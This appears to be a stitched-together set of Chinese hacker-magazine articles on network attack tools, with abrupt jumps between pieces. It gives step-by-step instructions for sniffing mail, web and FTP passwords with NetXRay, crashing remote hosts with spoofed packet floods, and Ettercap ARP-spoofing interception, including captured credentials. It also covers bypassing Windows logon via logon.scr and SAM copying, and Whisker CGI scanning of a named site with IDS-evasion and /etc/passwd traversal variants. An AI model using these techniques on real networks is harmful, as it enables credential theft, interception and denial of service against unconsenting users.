如果已选择了对象，选“Tools”菜单中的“Capture”项，调出Capture面板。面板上从左至右依次为开始、结束、结束和查看、查看、捕获设置5个按钮，如图6所示。按第一个按钮开始捕获数据，如果有数据传送的话，下面的指针会转动：第一个指针表示包的数量，第二指针表示缓存的使用情况；按“View”或“End And View”按钮，可以看到已捕获的数据包。如果你在一个使用Hub的局域网中，则不仅可以看到本机发送和接收的数据包，还可以看到其他机器互相通信的数据包！


图6

抓取这些数据包除了对学习TCP/IP协议有用外，还可以做很多事情。先解释一下什么叫做明文传送：两台机器通信时，若传送的数据为A，在传送过程中始终以A传送，叫做明文传送；如果传送A数据时，先用某种算法转化为B，以数据B进行传送，接收的计算机再由B反算出A，这叫加密传送。由此可以看出，对于加密传送，即使我们得到了传送的数据B，如果不知道其加密算法，也无法知其内容。QQ就是加密传送的，所以即使我们捕获了对话的数据包，通常也不知道它的真实内容。不过QQ的加密不太彻底，在数据包中可以看到断断续续的未加密内容。由于现在使用明文的协议还非常多，比如收发邮件、FTP、Telnet、新闻组等，所以还是可以看到数据包中很多东西的。

## 五、用NetXRay捕获数据包应用实例

以下我们在使用Hub的局域网中任意一台机器上执行网络软件，在另一台机器上用NetXRay监听，局域网所有的机器都通过服务器连接到Internet，看看我们能捕捉点什么。

- 1. 捕获OE发送的信箱名和口令
  - 1. 在局域网中的任何一台机器上运行NetXRay（注意：局域网使用交换机的话，NetXRay必须在服务器上运行），点击“Capture”面板的“Capture Setting”按钮，选择“Advance Filter”选项卡，点击“IP→TCP”项，将其展开，进行过滤设置。如果没有设置过滤，NetXRay捕获的数据包会非常多，不利于分析结果。由于OE接收邮件只使用POP协议，所以除了POP协议外，其他协议全部选中（选中的协议NetXRay就会过滤掉），如图7所示。
  在“Packet Size”（信息包尺寸）部分，选择ALL（默认就是它*），你也可以根据需要来设置信息包的长度、信息包里数据的位置（起始字节位置和结束字节位置）以及显示为16进制或ASCII样式等。在NetXRay上还可以对信息数据包的大小设置如小于、等于和大于等逻辑关系。
  - 2. 在局域网内任意机器上用OE收发邮件。
  - 3. 收信结束后，回到运行NetXRay的机器，点击capture面板中的“End And View”信息按钮，查看捕获的数据，能看到收发邮件双方所使用的IP地址和端口号。在图8中仔细查找，你还能看到刚才用OE收发信件的信箱和口令。
  - 4. 用OE收发邮件不安全，用Foxmail会安全吗？同样不安全，NetXRay也能捕获！这是由于POP协议是采用明文传送的结果，其他Email软件也一样。


图7


图8

- 2. 捕获Web信箱口令

通过浏览器直接登录网站的Web方式收信，能不能捕获口令呢？

- 1. 在局域网内的任何一台机器运行NetXRay，在选择过滤时，除了HTTP协议不选外，其他的所有协议都选中过滤掉。这是因为浏览器使用HTTP协议。点击“开始捕获”按钮进行捕获。
- 2. 到局域网上的另外一台机器上登录网站，输入用户名和口令进入信箱。
- 3. 在运行NetXRay的机器上，点击Capture面板上的“End And View”按钮，仔细看，仍然无法逃脱NetXRay的控制。

- 3. 捕获通过网页发送的信息

对于捕获通过网页发送的信息也很容易，以论坛的用户名和口令为例。

- 1. 在一台机器上运行NetXRay，同样设置除HTTP外过滤掉其他所有的协议并开始捕获。
- 2. 在另一台机器上输入用户名和口令，登录论坛。
- 3. 回到运行NetXRay的机器，查看捕获的信息，同样可以找到用户名和口令。

采用类似的方法，我们可以用同样方法捕获FTP口令；只不过过滤时排除了FTP协议，过滤掉其他的协议。总之，只要是明文传送的数据都逃不掉。

以上只是NetXRay的常规用法，你还可自制和发送IP包。对信息包的结构比较熟悉的用户可选择工具菜单中的信息包制造项，自己写入信息包的内容，然后发送给对方；高级用户可以通过给对方发送一些特殊的数据包达到攻击的目的。下面我们就简单谈谈这个问题。

## 六、用NetXRay对远程机器进行攻击

利用NetXRay还可以对远程机器发动攻击，使目标机器网速及系统变慢导致死机。虽然我们不想说这个，但知己知彼，才能百战不殆，所以对这种攻击方法还是有所了解为好。

在NetXRay中点击“Tools→Packet Generator”，会出现如图4所示窗口，在这里你可以设置向一台远程机器发送信息包。点击第三个按钮，会出现一个名为“Send new packet”对话框，点击“Size”可以设置信息包的大小，在“Send”中可以选择是循环发送还是发送指定的次数。信息包的数据是16进制的样式。另外，还有一个解码（Decode）部分让你选择。选择完毕，点击“确定”，然后再点击第一个按钮来发送。如果点击第三个按钮，还可以选择把你刚刚截获到的信息数据包发送出去。在这里建议大家要慎用该功能。在我们的测试中，曾使一台远程机器死机数次；但是如果操作不正确的话，也有可能把自己搞下线，所以这里只有你自己去琢磨了。


图9

用NetXRay也可以对一台远程服务器发起伪装攻击，这就需要高级用户来测试了。而且现在很多服务器面对此类的攻击根本就是不堪一击。你可以照着上面所说的方法生成一个比较正常的信息数据包，类似于几个Ping之类的就足够了，再用FTP或者Telnet、Gopher等方式连接到你所要攻击的目标机器，之后发送这个信息数据包给它，然后再用NetXRay把它截获下来。接着修改这个数据包，找到Source IP的那个offset，把它改成随便一个IP，“雾”国“叹”官的主机IP都成。接着找出关于校验和的地址，改好校验和，最后把这个信息数据包复制起来，再发送给目标机器。由于NetXRay发送信息数据包时的速度非常快，一秒钟可以发出几个，所以用不了多少时间，就可以让这台机器死上几回。当然，这还要看那台倒霉的机器的承受能力。

以上提到的仅仅是NetXRay众多功能中的几个特例，更多的应用还需要大家来挖掘。如果你想试试NetXRay的强大威力，可以到以下地址http://www.sycatv.net/ftp/ftp2/net/NetXRay.ZIP下载。

什么是扫描器？一种能自动检测远程或本地主机安全性弱点，发现远程服务器的端口分配及判断所提供服务的程序。扫描器的种类很多，有解析扫描器和漏洞扫描器、端口扫描器等。根据扫描器的特性，有些人习惯地把它归为黑客工具，其实我们管理员平时工作也离不开它。那么到底哪一款扫描器才最适合我们使用呢？看看本文吧！

## 3款值得推荐的扫描器

文／薛云

一般来说，仅仅依靠管理员去分析和发现系统存在的脆弱性和漏洞，既费事费力，同时受管理员水平的限制也不可能全面，而扫描器正如一个具有完备系统与网络安全知识的管理员，深入并详细掌握其存在的安全脆弱性和漏洞，知道如何弥补这些安全系统安全问题并及时修改网络安全策略，以保证网络始终处于最佳安全状态。同时作为一名黑客，如何快速精确地发现远程主机服务及漏洞，如何在最短的时间里找到大量存在漏洞的主机是很有必要的，可以说扫描器在其中扮演了极其重要的角色。

这里我们就给大家推荐3款优秀的扫描器：Dotpot PortReady、Niloo IIS Security Scanner、Net Tools X，它们可以说是各具特色，都是能独当一面的角色。

### Dotpot PortReady

一测试完PortReady，我就对它爱不释手了。极快的速度和方便友好的操作界面，能快速地对大网段范围进行connect方式端口扫描；同时具有获取端口标识的功能，可以用来快速地获取端口标识（Banner）。该软件为“绿色软件”，无需安装，很小巧，更可贵的是作者还免费发行源代码，不保留任何版权。单击打开主程序，可见其友好的操作界面（图1）。

PortReady操作很简单，地址设置栏中起始处填入开始IP，停止处填入结束IP；端口设置栏为端口扫描设置，支持指定范围和列表两种方式，如果你想要扫描单一端口，以FTP端口21为例子，只需在范围栏中填入：21->21；参数栏中线程默认为100，最高为300，根据网速和系统情况客观选择并发线程数；超时即为超过连接时间，默认时间为2秒，因为程序的扫描方式为connect方式，并没有像大多数扫描器扫描之前先进行Ping探测对方是否在线，而是每台主机都使用connect连接，如果要获得更快的速度，可设为1秒，但可能会有漏报现象。点击最右边的扫描按钮，程序就开始运行了，结果显示在结果栏处。

不知道大家有没有关心最近的Wu-ftpd v2.6.2 Off-by-one远程溢出漏洞？低于2.6.2版本的Wu-ftpd都可能受影响。大家知道Wu-ftpd是一款很流行的FTP服务器程序，很多Linux服务器都……


图1 软件主界面


图2 扫描结果

默认安装。那么，怎么才能得到大量的测试目标呢？我们总不可能每台主机都FTP连接，然后看返回的Banner吧？有了PortReady，一切都很简单，因为它能帮我们自动获取端口标识（Banner），根据前面的操作指导，我们很快就能得到想要的结果（图2）。再配合程序的右键菜单（图3），我们可以毫不费力地做出一个漏洞主机IP列表，再导入其他漏洞检测器进行漏洞扫描。


### NISS v1.0

IIS是Windows默认安装的Web服务，也是现在应用最广的Web服务器版本。因为树大招风，很多安全研究者都以IIS为目标，因而IIS的漏洞层出不穷。如早先的Idq、Ida、Print远程溢出漏洞，最新的WebDAV漏洞，都能让攻击者很轻易地拿到系统权限；更不要说那些数不胜数的小漏洞小缺陷了。怎样才能知道你的IIS服务器是否最安全呢？漏洞检测并补上相应的补丁。

NISS v1.0是一款新出的IIS服务漏洞扫描器，可以扫描多达750种IIS 4.0/5.0服务漏洞。软件使用前必须安装其运行所需的库文件MSWINSOCK.OCX（http://www.ascentive.com/support/new/images/lib/MSWINSCN.OCX），下载MSWINSCN.OCX后把它更名为MSWINSOCK.OCX，复制到系统目录system32下，然后在命令行下注册，如WIN2000：regsvr32 \WINNT\system32\MSWINSCK.OCX，你将会得到“Dll RegisterServer ... succeeded”的消息，现在你的NISS也能正常工作了，其主界面如图4所示。


现在你只需在URL处填上要检测的主机IP地址，我们以192.168.160.129为例，点击Start按钮，程序就开始工作了，发现的漏洞将会在最下方的对话框中显示。呵呵，只要你还没把你的IE升级到6.0，我想还是能帮你找到几十个小BUG的。NISS是一款强大的管理员工具，由于是最新版，软件还存有缺陷，如不支持大网段扫描，不对检测到的漏洞提供相关修补信息等。

### Net Tools X

我们不能简单地把Net Tools X定义为黑客工具或是管理员工具，因为它的功能太强大了，就像它的名字Net Tools一样称它为网络工具。它把各种常用命令行指令集成在一个方便操作的图形界面之中。功能包括：进程管理、地址转换、Ping探测、路由跟踪、信息探测、端口扫描、共享扫描、MAC扫描等。今天我们以介绍扫描功能为主，其扫描原理和大多数扫描器相同，但它的特色是：内置端口信息数据库，收录3500多个端口的信息，方便大家服务与端口对照，演示如图5所示。


为了方便管理人员对照端口查看相应的服务，如果数据库中未列出的端口则显示为未知端口，那你可就要好好检查它了。同时，程序还提供共享扫描和MAC扫描（图6），这些功能普通的扫描器都有，就不再赘述了。


虽然这里我们没有对扫描器的详细使用进行介绍，只是进行了推荐，但相信大家都能熟练地使用，毕竟扫描器的功能大同小异，不过如果你在使用中发现了什么技巧，欢迎与我们交流！

谈到Linux下的嗅探工具，大家一定会想到SNIFFIT和TCPDUMP。确实，如今大多Linux厂家把它们纳入安装盘里，用户可以自己选择安装。其中，最容易上手的当然是SNIFFIT，只要输入一选项，整个网络数据流通情况都可以一览无余，可如果你是处在交换环境下，SNIFFIT就会失效了。TCPDUMP功能当然很强大，灵活的定制规则、丰富的表达式奠定了它的优势，也加大了它的操作难度，这时候，ETTERCAP就成为我们的首选嗅探器。


### ETTERCAP

## 交换环境下的嗅探器

文/ciel

ETTERCAP是由意大利人ALoR和NaGA开发出来的，它不仅可以嗅探数据包，还可以更改其内容，也可以自己注入一些命令。

### 一、安装

你可以在网上很多地方下载到它的最新版本，下载完后，先解压缩：

```
bash
[root@CIEL root]#tar zxpvf ettercap-0.6.tar.gz
[root@CIEL root]#cd ettercap-0.6
[root@CIEL ettercap-0.6]# ./configure&&make&&make install
[root@CIEL ettercap-0.6]#make plug-ins
[root@CIEL ettercap-0.6]#make plug-ins_install
```

安装完成后，输入“ettercap --help”就可以看见帮助文档，基本用法是：

```
bash
ettercap [option] [host:port] [host:port] [mac] [mac]
```

### 二、功能介绍

嗅探：它有5种工作模式。

```
text
-a  --arpsniff  基于arp的欺骗，分3小种：arpbased、smartarp和publicarp。
-s  --sniff     属于IPBASED，目标可以是任何主机。
-m  --macsniff  属于MACBASED。
```

需要说明的是，-s -m两选项带来的是传统嗅探式，分别基于IP地址和MAC地址，也就是说它们必须先把网卡置于混杂，然后才可以正常工作。所以在交换环境下，这两项会完全失效，-a选项是基于ARP欺骗的，是一种中间人攻击模型。实质是利用了ARP协议的漏洞，攻击者分别欺骗了A和B机。让A机把数据传给嗅探者，然后再由嗅探机把数据转发给B机，A和B却没有意识到数据包的中转过程，这样我们就可以劫获数据甚至修改数据包。

下面分别介绍5种用法：

+   1. `ettercap --Nza ip1 ip2 mac1 mac2`（arpbased）
    劫获IP1与IP2间的数据，缺省状态下只接收TCP数据包。

+   2. `ettercap --Na ip mac`（smartcarp）
    劫获此IP与外部所有通讯数据，这种方式比较剧烈，启动时采用的是ARP风暴，很容易被发现。如果别人在用TCPDUMP监听，就会看见攻击者发出的无数的ARP请求，再傻的管理员都明白什么事情发生了。不过，由于修改了指定主机的ARP表中关于被监听主机的MAC地址，还修改了被监听主机中的那些指定主机的MAC地址，处于完全的中间人工作状态，这时候你可以做的事情多些，比如更改数据包，截取SSH口令。

+   3. `ettercap --Nza ip mac`（publicarp）
    同上，不同点在于发送ARP请求的方式，上面采用的是ARP广播，这里只是对特定主机发送ARP请求，这样不易引起管理员的怀疑。不过也带来了问题，被监听者自己也会收到这个以广播方式发送的ARP响应包，于是便会弹出“检测到IP地址与硬件地址冲突”之类的警告，不过不会影响目标主机正常通信。还有一点就是发往被监听主机的数据包会送给监听者，而监听者发出的数据包却被直接送往真正的目的主机，没有经过监听者的主机，所以我们只能截取不完全的通信内容。

+   4. `ettercap -Nzs IP:80` (ipbased sniffing)

基于IP地址的嗅探。这里仅劫获目标机器HTTP消息，你也可以指定其他端口，比如23。如果没有指定，所有都会被截取。

+   5. `ettercap -zn mac1 mac2` (macbased)

基于MAC的嗅探，只需输入MAC地址。需要说明的是，4和5两种方式只适合于共享网络，在交换网络下一概无效。MAC地址的获取很简单，直接在终端输入“ettercap -l”就会列出所有在线主机。或者你先PING一下某个IP，不管有没有回应（没有回应可能是对方开了防火墙），再用ARP命令就可以获取其MAC地址。如果无法获取，则此IP不存在，这也是探测防火墙后的主机是否在线的一个好方法。

包过滤：由于网络流量实在很大，当你面对大量记录数据时，你可能会感到手足无措，你想找到自己需要的数据无疑是一项艰巨的工作，这时候，我们可以通过F选项加载自己的过滤规则，这样，很多无用的数据就会被忽略、删节。和注册字符一样，我们进行包过滤时有必要的话也要注意到正确的TCP序列号和确认序列号等因素。一旦你加载了自己的过滤链，你就可以有目的地得到自己最需要的数据了。一条过滤规则看起来就像汇编程序一样，当然，还是有差距的，用阵列形容可能更确切些。一条过滤规则大概如下：协议、源端口、目标端口、承载数据。

一个空的搜索字符串总可以成立，比如端口如果没有指定，所有的都会被记录下来。只要那些规则匹配，你的过滤链就可以工作了。

例如有如下数据流：

```
text
packet 1: "var1=123&var2=400"
packet 2: "var1=124&var2=420"
packet 3: "var1=125&var2=460"
packet 4: "var1=126&var2=540"
packet 5: "var1=127&var2=700"
```

我们可以写如下规则：

```
text
Search: "var1=[3*]"
Replace: "var1=000"
```

被过滤后的流就会如下：

```
text
packet 1: "var1=000&var2=400"
packet 2: "var1=000&var2=420"
packet 3: "var1=000&var2=460"
packet 4: "var1=000&var2=540"
packet 5: "var1=000&var2=700"
```

如果“var1”后面没有被指定，默认则“var1=000”。

最后是关于SSH的嗅探：由于传输数据被加密，我们必需自己掌握密钥，具体实现方法如下：我们先截取服务器的明文密钥，保存在一边。自己再生成另一明文密钥，用来加密本机与客户机通讯数据，收到客户机数据后，自然可以解密，再用服务器明文密钥加密，发送给服务器，如此一来，可以偷梁换柱。

### 三、工作参数

下面列出它的主要选项，虽然它本身有28个，不过限于篇幅，下面只列出一些常用的：

+   - `-N --simple` 非交互方式，很常用的
- `-z --silent` 静模式(启动时不是发送ARP风暴)
- `-O --passive` 被动模式嗅探
- `-b --broadping` 广播PING，替代了ARPPING
- `-S --spoof <ip1>` 用IP1这地址发送ARP请求获取其他机器信息
- `-H --hosts <ip1[ip2][...]>` 嗅探的目标主机的IP，可以是很多台
- `-n --netmask <netmask>` 扫描由输入子网掩码确定的子网
- `-v --version` 检查最新版本
+   - `-h` `--help` 帮助文档
- 组合选项（一般和N绑定一起执行）
- `-u` `--udp` 嗅探UDP数据，缺省是TCP
- `-p` `--plugin <name>` 运行指定名字的插件
- `-l` `--list` 列出所有在线主机ip和mac，实质就是发送255个ARP请求，等待回音，如果你的子网掩码是255.255.0.0，就会发送255*255个请求，就是ARP风暴吧！
- `-C` `--collect` 仅搜集用户名和对应密码 Eg: `ettercap -NCzs IP:port` 它规则不是很严格，所以你IP或PORT不填也没有关系
- `-c` `--check` 检察网络里有无其他机器正在嗅探
- `-x` `--hexview` 用16进制表达数据，这样，如果你想自己创建一个包的话会比较方便。比如，建个文件写上 `"\x01\x02\x00\x00\xFF\xFF\x00\x02here the pass"`。注意：ettercap不仅可以嗅探包，也可以创建包的。所以，你可以更改穿过你机器的任何一段数据
- `-L` `--logtofile` 记录所有数据到指定位置
- `-k` `--newcert` 创建一个新的CERT文件，用以进行HTTPS攻击
- `-F` `--filter` 从指定文件列加载过滤规则
- `-f` `--fingerprint <host>` 指定主机的OS判别，采用的是nmap的数据库，所以准确性得到保障，不过也有无法辨别的时候
- `-t` `--linktype` 判断自己处在什么样的网络环境中，交换或是HUB

### 四、实战

210.197.248.192是确定在线的主机，先判断它的操作系统：

```
text
[root@CIEL root]# ettercap -Nf *.*.248.192
ettercap 0.6.0 (c) 2001 ALoR & NaGA
Your IP: *.*.248.226 with MAC `00:00:E8:7B:CA:4D` on iface: eth0
Fingerprinting *.*.248.192
Operating System:
Windows NT 5 Beta2 or Beta3
Windows Me or Windows 2000 RC1 through final release
MS Windows2000 Professional: RC1/W2K Advance
Server Beta3
Windows Millenium Edition, v4.90.3000
```

现在小试牛刀，看看对方正在做什么：

```
text
[root@CIEL root]# ettercap -Nza*.*.248.192 *.*.248.254 MAC1 MAC2
```

这里*.*.248.254是网关。这样，我们就是中间人了，它与外网所有数据都会在我们这里流过。不过被嗅探机器的内网数据交换我们将看不到。下面是截取到的两段典型的HTTP交互数据，从第一段可以看出客户正在看的网页、脚本、浏览器语言以及客户的操作系统等信息。从第二段可以看出主机的banner等等，都是网站的基本资料。

```
text
GET /pcedu/script/title_edu.js HTTP/1.1
Accept: */*
Referer: http://wwwb.pconline.com.cn/pcedu/soft/doc/nt/10308.htm
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
If-Modified-Since: Mon, 09 Sep 2002 09:18:53 GMT
If-None-Match: "6f67c-2d5-3d7c677d"
User-Agent: Mozilla/4.0 (compatible; MSIE 5.0; Windows 98; DigExt)
Host: wwwb.pconline.com.cn
Connection: Keep-Alive

HTTP/1.1 200 OK
Date: Sat, 01 Mar 2003 08:25:37 GMT
Server: Apache/1.3.20 (Unix) PHP/4.1.2 mod_ssl/2.8.4 OpenSSL/0.9.6a
X-Powered-By: PHP/4.1.2
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
```

当然，它还可以记下很多网页内容，全是HTML源代码，你可以抓下来，用HTM后缀保存，再用浏览器打开，好了，你看到的是什么，别人看到的就是什么。不过，它对中文支持很不好，所以别人看见的中文你将无法看到。另一个程序LCRZOEX就很不错，在中文终端里，可以把所有中文网页完整抓下来。

一般黑客最感兴趣的无非是密码了，比如下面的组合，h是帮助，它会提供帮助信息：

```
text
[root@CIEL root]# ettercap -Nczs
ettercap 0.6.0 (c) 2001 ALoR & NaGA
Your IP: *.*.248.226 with MAC: 00:00:E8:7B:CA:4E on iface: eth0
Resolving 1 hostnames
Press 'h' for help
Sniffing (IP based) ANY:0 <--> ANY:0
TCP packets only... (default)
Collecting passwords...
[qQ]= quit
[lL]= log all traffic to file(s)
space = stop/cont sniffing
15:52:51 *.*.248.21:1027 <--> 61.114.4.41:23 telnet
USER: root
PASS: root
15:54:53 *.*.248.46:1041 <--> 61.135.132.99:80 http
USER: dalin
PASS: 7895865
http://www.sohu.com/
16:13:14 *.*.248.192:2278 <--> *.*.249.172.21 ftp
USER：CshjPASS：123456
```

如果你输入L，系统在/ROOT下会自动生成“20030301－Collected-passwords.log”，里面会记录下所有能嗅探到的密码，看来Telnet、HTTP、FTP密码都不能逃过，这些记录简洁明了，在机器上挂一天，不知道可以记录多少了：）

### 五、后语

总而言之，ETTERCAP实在是一款很不错的工具，但是有些地方得注意的，由于攻击者在嗅探过程中担负了数据转发工作，如果配置比较低或者担负很多机器数据的转发工作的话，常容易丢失些数据包，如果攻击者处在A与B机中间，当攻击停止时，A和B机得重新建立会话，中间会有一定延时，别人可能会注意到这点。然后最重要的就是关于ARP风暴了，如果你自己机器子网掩码是255.0.0.0，它会发送255*255*255个ARP请求，即使短时间发送255个ARP请求，也会有不小的记录，一些检测软件很容易发觉。

（上接第284页）

将该文件改名为logon.scr。这样启动机器后等待15分钟，本应该出现的屏幕保护现在变成了命令行模式，而且是具有Administrator权限的，通过它就可以修改密码或者添加新的管理员账号了。改完后不要忘了把屏幕保护程序的名字改回去啊。下载地址：http://www.cgsecurity.org/index.html?ntfs.html。

奇招5：下面介绍一个比较与众不同的方法。你可以在别的分区上再装一个XP，硬盘分区格式要和原来的一样，并且请你注意一定不要和原来的XP安装在同一分区！在开始之前，一定要事先备份引导区MBR（Master Boot Record）。备份MBR的方法有很多，可以自己编程（可以参考第7期文章：自动手备份主引导区），或使用工具软件，如杀毒软件KV3000等。装完后用Administrator登录，现在你对原来的XP就有绝对的写权限了。你可以把原来的SAM拷下来，用l0phtcrack得到原来的密码。

也可以把新安装的XP的Winnt\System32\Config\下的所有文件覆盖到C:\Winnt\System32\Config\目录中（假设原来的XP安装在这里），然后用KV3000恢复以前备份的主引导区MBR，现在你就可以用Administrator身份登陆以前的XP了。

小提示：MBR俗称“主引导区”，它的作用是读取磁盘分区表（Partition Table）里面所设定的活动分区（Active Partition），位于硬盘的柱面0、磁头0、扇区1的位置，也即俗称的0磁道位置，它是由分区命令Fdisk产生的。MBR包括硬盘引导程序和分区表这两部分。MBR结束标志为55AA，用杀毒软件KV3000的F6功能即可查看，其默认画面即为MBR。如果MBR找不到活动分区，就会在屏幕上显示像Missing Operating System等错误讯息，所以，如果你的Windows XP无法正常开启，而你又在屏幕上看到类似这样的错误讯息，原因大多数就是出在这里了。

## Linux下的CGI漏洞扫描兄弟：Whisker与Malice

文／朱平

- 难度等级：初级
- 前置知识：CGI漏洞知识

### Whisker

现在很多Web服务器都支持CGI，CGI是一个允许你扩展Web服务器的一般协议。通过编写CGI程序，你能够增加Web服务器的功能。这些功能很可能无意中引入新的安全漏洞。Whisker是一款Web服务器漏洞扫描软件。它由Rain Forest Puppy开发，能够进行大量的CGI漏洞扫描。另外，Whisker采用了很多独特的IDS躲避技术。Whisker的当前版本是2.0版，但是这个版本目前基本无法使用，因此在2.1版本推出之前，建议还是使用1.4版本的Whisker。

```bash
[root@sz junliu]# tar zxvf whisker.tar.gz
//解压缩
[root@sz junliu]# cd v1.4
//进入解压缩后的目录
[root@sz junliu]# ls
brute.db  CHANGELOG  install.txt  lists  scan.db  whisker.pl
BUGS  dumb.db  listgen.pl  multi.pl  server.db  whisker.txt
//列出解压缩后目录的详细信息
[root@sz junliu]# ./whisker.pl
whisker v1.4.0 : rain forest puppy
www.wiretrip.net
 -n  nmap output (machine format, v2.06+)
 -h  scan single host (IP or domain)
 -H  host list to scan (file)
 -F  *(for unix multi-threaded front end use only)
 -s  specifies the script database file (defaults to scan.db)
 -V  use virtual hosts when possible
 -p  specify a different default port to use
 -S  force server version (e.g. "Apache/1.3.6")
 -u  user input; pass XXUser to script
 -i  more info (exploit information and such)
 -v  verbose. Print more information
 -d  debug. Print extra crud++ (to STDERR)
 -W  HTML/web output
 -l  log to file instead of stdout
 -a  authorization username:password
 -P  password file for -L and -U
 -T1 IDS-evasive mode 1 (URL encoding)
 -T2 IDS-evasive mode 2 (// directory insertion)
 -T3 IDS-evasive mode 3 (premature URL ending)
 -T4 IDS-evasive mode 4 (long URL)
 -T5 IDS-evasive mode 5 (fake parameter)
 -T6 IDS-evasive mode 6 (TAB separation) (not NT/IIS)
 -T7 IDS-evasive mode 7 (case sensitivity)
 -T8 IDS-evasive mode 8 (Windows delimiter)
 -T9 IDS-evasive mode 9 (session splicing) (slow)
 -t 0 IDS evasive mode 0 (NULL method)
 -M 1 use HEAD method (default)
 -M 2 use GET method
 -M 3 use GET method w/ byte-range
 -M 4 use GET method w/ socket close
 -A 1 alternate db format: VooDoo exp.dat
 -A 2 alternate db format: cgiatk*, r (in rebol)
 -A 3 alternate db format: cgichk.c / messala.c (not cgiexp.c)

 Utility options (changes whisker behavior)

 -U brute force usernames via directories
 -L brute force login name/password
 (parameter is URL, use with -a for username)
 (requires parameter, one must exist)

 (Note: proxy bounce support has been removed until v2.0)

 sh-2.05#
```

解压缩后，程序无需编译即可使用。通过使用帮助，你会发现 Whisker 的使用也是很简单的。由于本文只涉及 CGI 漏洞扫描，所以我们只说说它的扫描功能就足够了，至于更多的 CGI 探测功能大家可以参考目录下的 README 文件。首先确定我们将要检测的主机 IP 或域名，在 Shell 下做如下操作：

```bash
[root@sz junliu]# ./whisker.pl -h www.9836.com -i -v.
// 对主机 www.9836.com 进行 CGI 漏洞检测，显示详细的测试信息
```

```text
-= whisker - v1.4.0 / rain forest puppy =-
www.wiretrip.net
- Loaded script database of 1968 lines

Host: www.9836.com
Cookie: ASPSESSIONIDQQDTADTB=...
Server: Microsoft-IIS/5.0

Appending '/%20' or 0x81 to URLs may...

give script source
- Also try .htr and .%20%20.htw tricks
+ 404 Object Not Found: GET /cfdocs/
+ 404 Object Not Found: GET /scripts/
+ 404 Object Not Found: GET /cfcache.map
+ 404 Object Not Found: GET /cfide/Administrator/startstop.html
+ 404 Object Not Found: GET /cfappman/index.cfm
+ 403 Access Forbidden: GET /cgi-bin/
+ 404 Object Not Found: GET /cgi-bin/dbmlparser.exe
+ 404 Object Not Found: HEAD /cgi-bin/webbbs.exe
+ 404 Object Not Found: HEAD /cgi-bin/visitor.exe
+ 200 OK: HEAD /vti_inf.html
+ 404 Object Not Found: HEAD /_private/
+ 403 Access Forbidden: HEAD /_vti_bin/
+ 404 Object Not Found: HEAD /_vti_pvt/
+ 404 Object Not Found: HEAD /_vti_log/
+ 404 Object Not Found: HEAD /_vti_txt/
+ 200 OK: HEAD /_vti_bin/shtml.dll
+ 200 OK: HEAD /_vti_bin/shtml.exe
+ 200 OK: POST /_vti_bin/_vti_aut/author.dll
- We seem to have authoring access to the FrontPage web
<HTML> ?CONTENT_TYPE? ?HTML>
+ 404 Object Not Found: HEAD /bin/...
+ 404 Object Not Found: HEAD /_vti_bin/fpsrvadm.exe
+ 404 Object Not Found: HEAD /cgi-bin/fpsrvadm.exe
+ 404 Object Not Found: HEAD /_vti_bin/cfgwiz.exe
+ 404 Object Not Found: HEAD /cgi-bin/cfgwiz.exe
+ 404 Object Not Found: HEAD /admcgi/
+ 404 Object Not Found: HEAD /_vti_bin/contents.htm
+ 404 Object Not Found: HEAD /cgi-bin/contents.htm
+ 404 Object Not Found: HEAD /_vti_bin/scripts/fpadmcgi.exe
+ 404 Object Not Found: HEAD /cgi-bin/scripts/fpadmcgi.exe
+ 404 Object Not Found: HEAD /admisapi/
+ 404 Object Not Found: HEAD /_vti_bin/ipadmin...
+ 404 Object Not Found: HEAD /cgi-bin/fpadmin.
+ 200 OK: POST /_vti_bin/shtml.dll/_vti_rpc
<HTML>        ?CONTENT-TYPE: ?
<HTML>
+ 404 Object Not Found: HEAD /cgi-bin/avcdist.cgi
+ 404 Object Not Found: HEAD /cgi-bin/handler
sh-2.05#
```

从输出结果中，我们可以看到有3种基本的检测结果：200 OK、403 Access Forbidden 和 404 Object Not Found。这些结果表示：

#### 200 OK

这个输出表示攻击检查成功。服务器存在这个缺陷。这些缺陷包括：newdsn.exe、htr 和 URL 扩展字符串。攻击者可能利用这些缺陷侵入服务器。

#### 403 Access Forbidden

表示 Whisker 已经发现了可以用于攻击检查的文件，但是没有对它的访问权限。在这种情况下，攻击者暂时无法通过这些可能的缺陷侵入服务器，但是如果将来权限设置出现失误就可能给攻击者以可乘之机。

#### 404 Object Not Found

表示 Whisker 没有发现可以用于攻击的文件。从结果我们可以看出检测目标主机 www.9836.com 的 Web 服务器为 IIS 5.0，存在多个安全漏洞，因此我们必须即时修补相应的漏洞。

说完 Whisker 的漏洞检测功能，不得不说说它独特的 IDS 躲避技术。躲避或者越过网络入侵检测系统（Network Intrusion Detection System, NIDS）技术的应用，一直是确保扫描安全的重要因素。Whisker 的 IDS 躲避技术多为利用基本字符串匹配弱点的 IDS 躲避技术：一些基于特征码的入侵检测设备几乎完全依赖于字符串匹配算法，而对于一个编写很差的特征码，攻击者可以轻松地破坏对其的字符串匹配。虽然不是所有的入侵检测系统都是纯粹基于特征码检测的，但是绝大多数对字符串匹配算法有很大的依赖。这里，我们将使用开放源码工具 snort 的特征码来进行讨论。

在 UNIX 系统中，/etc/passwd 是一个重要的文件，它包含用户名、组成成员关系和为用户分配的 Shell 等信息。我们就从监视对 /etc/passwd 文件的访问开始，下面是用于检测的 snort 检测规则：

```text
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS 80 (msg:"WEB-MISC /etc/passwd"; flags:A+; content:"/etc/passwd"; nocase; classtype:attempted-recon; sid:1122; rev:1)
```

snort 使用字符串匹配算法对包含特征码（/etc/passwd）的 HTTP 请求进行检测。但是，这个规则的特征码过于简单了，攻击者修改攻击字符串可以很轻松地逃过检测（我们暂时不考虑攻击请求是通过 HTTP 发出的）。例如，把攻击请求由 GET /etc/passwd 改为 GET /etc/\/\/\/ passwd，或者 GET /etc/rc.d/../../../passwd，修改方式简直不计其数。这是最基本的检测逃避技术，对这种技术的检测也相对容易一些，只要在编写特征码时能够仔细考虑一下攻击可能出现的变体。目前大多数流行入侵检测系统都有非常强大的字符串匹配能力，足以检测此类攻击的大多数变体。不过，仍然有些编写不太好的特征码可以给攻击者以可乘之机。

